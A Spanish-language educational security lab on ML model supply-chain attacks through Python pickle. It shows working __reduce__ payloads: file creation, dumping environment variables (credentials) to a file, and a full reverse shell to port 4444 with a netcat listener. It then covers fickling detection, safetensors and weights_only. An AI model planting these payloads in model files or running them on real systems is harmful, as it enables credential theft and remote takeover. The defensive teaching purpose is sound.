









---
tags:
  - ai
  - seguridad
  - supply-chain
  - machine-learning
  - python
---

# Supply Chain de Modelos: Cómo un Pickle te Puede Hackear

Descargás un modelo de ML, lo cargás con `torch.load()`, y sin que hagas nada más tu máquina ya está comprometida. No es un exploit rebuscado, no es un zero-day — es cómo funciona pickle por diseño.

En este lab vamos a crear modelos maliciosos que ejecutan código al cargarse, detectarlos con fickling, y ver cómo safetensors elimina el problema.

!!! danger "Disclaimer"
    Este lab es educativo y todo corre en un entorno aislado (GitHub Codespace). No uses estas técnicas en entornos no autorizados.

---

## El problema: pickle ejecuta código

Cuando guardás un modelo con `torch.save()`, PyTorch usa **pickle** por detrás — un formato de serialización de Python. El tema es que pickle no solo guarda datos: **puede guardar y ejecutar código Python arbitrario**.

¿Cómo? A través de un método mágico llamado `__reduce__`. Cuando Python deserializa un objeto pickle (con `pickle.load()`), si ese objeto tiene `__reduce__`, ejecuta lo que devuelva. Es una "feature", no un bug.

```python
# Esto es todo lo que necesita un atacante
class Malicioso:
    def __reduce__(self):
        return (os.system, ("echo 'hackeado' > /tmp/pwned.txt",))
```

Cuando alguien carga este pickle, Python ejecuta `os.system("echo 'hackeado' > /tmp/pwned.txt")`. Sin warnings, sin confirmación.

---

## El setup

Todo corre en un GitHub Codespace (free tier). Necesitás:

- Python 3.10+
- `torch` (CPU)
- `fickling` (análisis de pickles)
- `safetensors` (formato seguro)

```bash
mkdir 02-model-supply-chain && cd 02-model-supply-chain
python3 -m venv venv && source venv/bin/activate
pip install torch --index-url https://download.pytorch.org/whl/cpu
pip install fickling safetensors numpy packaging
```

### Estructura del proyecto

```
02-model-supply-chain/
├── venv/                              # Entorno virtual
├── 01_train_legit_model.py            # Entrena un modelo legítimo
├── 02_create_malicious_pickle.py      # Crea 4 pickles con payloads
├── 02b_create_real_revshell.py        # Pickle con reverse shell real
├── 03_victim_loads_model.py           # Simula víctima cargando los modelos
├── 04_detect_with_fickling.py         # Detección de payloads sin ejecutarlos
├── 05_safetensors_alternative.py      # Formato seguro + weights_only
├── legit_model.pt                     # (generado) Modelo legítimo
├── malicious_file_creation.pkl        # (generado) Payload: crea archivo
├── malicious_env_stealer.pkl          # (generado) Payload: roba env vars
├── malicious_reverse_shell.pkl        # (generado) Payload: revshell simulado
├── malicious_trojan_model.pkl         # (generado) Payload: modelo troyanizado
└── malicious_real_revshell.pkl        # (generado) Payload: revshell real
```



---

## Paso 1: Un modelo legítimo

Primero creamos un modelo real — una red neuronal simple de 2 capas que clasifica dígitos. No importa que sea buena, lo que importa es tener un archivo `.pt` legítimo para comparar después.

```python
import torch
import torch.nn as nn

class SimpleClassifier(nn.Module):
    def __init__(self):
        super().__init__()
        self.layer1 = nn.Linear(784, 128)
        self.relu = nn.ReLU()
        self.layer2 = nn.Linear(128, 10)

    def forward(self, x):
        x = self.layer1(x)
        x = self.relu(x)
        x = self.layer2(x)
        return x

model = SimpleClassifier()

# Datos fake para entrenar (no necesitamos precisión, solo un modelo guardado)
X_train = torch.randn(1000, 784)
y_train = torch.randint(0, 10, (1000,))

criterion = nn.CrossEntropyLoss()
optimizer = torch.optim.Adam(model.parameters(), lr=0.001)

for epoch in range(5):
    optimizer.zero_grad()
    outputs = model(X_train)
    loss = criterion(outputs, y_train)
    loss.backward()
    optimizer.step()
    print(f"Epoch {epoch+1}/5 — Loss: {loss.item():.4f}")

# Guardar con torch.save() — usa pickle por detrás
torch.save(model.state_dict(), "legit_model.pt")
```

El modelo entrena, la loss baja, se guarda. Todo normal.



---

## Paso 2: Envenenando el modelo

Ahora viene lo interesante. Vamos a crear archivos pickle que ejecutan código cuando alguien los carga. Tres payloads que escalan en severidad:

### Payload 1 — Crear un archivo (proof of concept)

```python
import pickle
import os

class MaliciousModel_FileCreation:
    def __reduce__(self):
        cmd = "echo 'PWNED - Codigo ejecutado al cargar el modelo' > /tmp/pwned.txt"
        return (os.system, (cmd,))

with open("malicious_file_creation.pkl", "wb") as f:
    pickle.dump(MaliciousModel_FileCreation(), f)
```

`__reduce__` devuelve `(os.system, (cmd,))`. Cuando alguien haga `pickle.load()`, Python ejecuta `os.system("echo 'PWNED...' > /tmp/pwned.txt")`. Así de simple.

### Payload 2 — Robar variables de entorno

```python
class MaliciousModel_EnvStealer:
    def __reduce__(self):
        code = (
            "import os, json\n"
            "env_data = dict(os.environ)\n"
            "with open('/tmp/stolen_env.json', 'w') as f:\n"
            "    json.dump(env_data, f, indent=2)\n"
        )
        return (exec, (code,))
```

Las variables de entorno suelen tener de todo: `AWS_SECRET_ACCESS_KEY`, `DATABASE_URL` con credenciales, tokens de CI/CD. Este payload las escribe a un archivo que el atacante podría exfiltrar.

### Payload 3 — Reverse shell

```python
class RealReverseShell:
    def __reduce__(self):
        code = (
            "import socket,subprocess,os\n"
            "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n"
            "s.connect(('127.0.0.1',4444))\n"
            "os.dup2(s.fileno(),0)\n"
            "os.dup2(s.fileno(),1)\n"
            "os.dup2(s.fileno(),2)\n"
            "subprocess.call(['/bin/bash','-i'])\n"
        )
        return (exec, (code,))
```

Este es el clásico reverse shell de pentesting. La víctima carga el modelo y el atacante recibe una shell interactiva. En un ataque real, el `127.0.0.1` sería la IP del atacante.

!!! warning "¿Por qué funciona?"
    Pickle fue diseñado para serializar objetos Python de forma completa, incluyendo la capacidad de reconstruirlos. `__reduce__` le dice a pickle "para reconstruir este objeto, ejecutá esta función con estos argumentos". No hay validación de qué función es ni qué hace. Es un feature de serialización que se convierte en un vector de ataque.



---

## Paso 3: La víctima

Simulamos a alguien que descargó un modelo y lo carga. No ejecuta nada explícitamente — solo hace `pickle.load()`.

```python
import pickle
import os

# Antes de cargar
print(f"/tmp/pwned.txt existe? {os.path.exists('/tmp/pwned.txt')}")  # False

# Cargar el modelo "descargado"
with open("malicious_file_creation.pkl", "rb") as f:
    obj = pickle.load(f)  # El payload se ejecuta ACA

# Después de cargar
print(f"/tmp/pwned.txt existe? {os.path.exists('/tmp/pwned.txt')}")  # True
```

El resultado: el archivo aparece. Las variables de entorno se exfiltran. El reverse shell se conecta. Todo por un `pickle.load()`.



Verificamos la evidencia que dejaron los payloads:



### El reverse shell en acción

Para el PoC completo, levantamos un listener con netcat y cargamos el pickle del reverse shell:

**Terminal 1 — Listener:**
```bash
nc -lvnp 4444
```

**Terminal 2 — La víctima:**
```bash
python3 -c "import pickle; pickle.load(open('malicious_real_revshell.pkl','rb'))"
```

El listener recibe la conexión y tenemos shell completa.





!!! danger "Impacto real"
    En un escenario real, un atacante sube un modelo troyanizado a un repositorio público (Hugging Face, GitHub). Un data scientist lo descarga, lo carga para probarlo, y sin saberlo le da acceso completo a su máquina. Desde ahí: ransomware, cryptominer, exfiltración de datos, movimiento lateral. Y ya pasó — se encontraron [modelos maliciosos en Hugging Face](https://jfrog.com/blog/data-scientists-targeted-by-malicious-hugging-face-ml-models-with-silent-backdoor/).

---

## Paso 4: Detección con fickling

[fickling](https://github.com/trailofbits/fickling) es una herramienta de Trail of Bits que analiza archivos pickle **sin ejecutarlos**. Desensambla el pickle y muestra exactamente qué código se ejecutaría.

```python
from fickling.fickle import Pickled
import ast

with open("malicious_file_creation.pkl", "rb") as f:
    p = Pickled.load(f)
    
    # Imports peligrosos
    for imp in p.unsafe_imports():
        module = imp.module
        names = [a.name for a in imp.names]
        print(f"from {module} import {', '.join(names)}")
    
    # Código que ejecutaría
    print(ast.unparse(p.ast))
```

Fickling descompila el pickle y muestra:

- **File Creation**: `from posix import system` → `system("echo 'PWNED...' > /tmp/pwned.txt")`
- **Env Stealer**: `from builtins import exec` → `exec("import os, json...")`
- **Reverse Shell**: `from builtins import exec` → `exec("import socket,subprocess,os...")`

El código completo del reverse shell queda expuesto. Sin ejecutar nada.




!!! tip "Integrá fickling en tu pipeline"
    fickling se puede correr como check automatizado en CI/CD. Cualquier modelo que entre a tu infra debería pasar por un scan antes de ser usado.

---

## Paso 5: La alternativa segura — safetensors

[safetensors](https://github.com/huggingface/safetensors) es un formato creado por Hugging Face que **solo guarda tensores** (datos numéricos). No usa pickle, no puede contener código, no ejecuta nada al cargarse.

```python
from safetensors.torch import save_file, load_file

# Guardar en safetensors
save_file(model.state_dict(), "model_safe.safetensors")

# Cargar desde safetensors — no puede ejecutar código
loaded_weights = load_file("model_safe.safetensors")
```

Si intentás meter algo que no sea un tensor, safetensors lo rechaza:

```python
payload = {"malicious": "exec('import os')"}
save_file(payload, "should_fail.safetensors")  # Error
```

### PyTorch 2.0+: `weights_only=True`

Desde PyTorch 2.0, `torch.load()` acepta el parámetro `weights_only=True` que bloquea la ejecución de código en pickles:

```python
# Modelo legítimo — funciona
torch.load("legit_model.pt", weights_only=True)  # OK

# Modelo malicioso — bloqueado
torch.load("malicious_trojan_model.pkl", weights_only=True)  # Error
```



!!! info "¿Por qué no se usa siempre safetensors?"
    Legacy. Hay miles de modelos publicados en formato pickle que todavía se usan. PyTorch hizo `weights_only=True` el default en versiones recientes, pero mucho código viejo usa `weights_only=False` o versiones anteriores. La migración a safetensors está en marcha — Hugging Face ya lo usa como default en todos sus modelos nuevos.

---

## Defenderse

Resumen de medidas concretas:

| Medida | Qué hace | Cuándo usarla |
|--------|----------|---------------|
| `weights_only=True` | Bloquea ejecución de código en `torch.load()` | Siempre que cargues un `.pt` |
| safetensors | Formato que no puede contener código | Para guardar y distribuir modelos |
| fickling | Detecta payloads en pickles sin ejecutarlos | En pipelines de CI/CD |
| Hash verification | Verificar SHA256 del modelo antes de cargarlo | Modelos descargados de terceros |
| Modelos verificados | Usar solo modelos de fuentes confiables (HF verified) | Siempre |

```yaml
# Ejemplo: check de fickling en GitHub Actions
- name: Scan models for malicious payloads
  run: |
    pip install fickling
    python3 -c "
    import fickling, sys
    for f in sys.argv[1:]:
        safe = fickling.is_likely_safe(f)
        status = 'SAFE' if safe else 'UNSAFE'
        print(f'{status}: {f}')
        if not safe:
            sys.exit(1)
    " models/*.pt models/*.pkl
```

---

## Conclusión

Pickle es un formato peligroso para distribuir modelos de ML. Un `pickle.load()` inocente puede darte un reverse shell, robarte credenciales, o instalar malware. No es un ataque teórico — pasa en la práctica.

Las defensas existen: safetensors, `weights_only=True`, fickling, verificación de hashes. El problema es que mucha gente no las usa porque no sabe que el riesgo existe.

Si trabajás con modelos de ML, adoptá safetensors como default y nunca cargues un pickle de una fuente que no confiás. Si sos DevOps y tenés pipelines que consumen modelos, integrá fickling como check automático.

---

!!! tip "Próximo lab"
    En el siguiente lab vamos a construir un agente AI con acceso a herramientas, romper sus restricciones de seguridad, y después hardenearlo. → [Jailbreaking un Agente AI](lab-jailbreak-agente.md)

---

**Lab completo:** [Delta-39/security-projects](https://github.com/Delta-39/security-projects) — directorio `01-model-supply-chain/`
